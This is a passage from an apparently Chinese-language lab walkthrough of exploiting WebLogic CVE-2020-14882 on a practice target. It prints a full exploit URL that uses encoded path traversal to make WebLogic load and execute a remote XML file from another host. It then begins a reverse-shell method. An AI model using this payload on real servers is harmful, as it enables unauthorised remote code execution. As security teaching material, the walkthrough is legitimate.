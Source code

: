 然后通过访问如下 URL，即可让 Weblogic 加载这个 XML ，并执行其中的命令：

```
http://192.168.10.10:7001/console/css/%252e%252e%252fconsole.portal?_nfpb=true&_pageLabel=&handle=com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext("http://192.168.10.20/14882-rce.xml")
```

![](images/cve-2020-14882-8.png)

执行命令成功后，进入靶场容器内验证可以看到 `/tmp/success2` 文件已经被创建。

![](images/cve-2020-14882-9.png)

#### 方法二：反弹Shell

首先，我们需要构造一个 XML 文件，并将其保存在 Weblogic 可以访问到的服务器上，可以自行搭建一个web服务，例如 `python -m http.server 80`
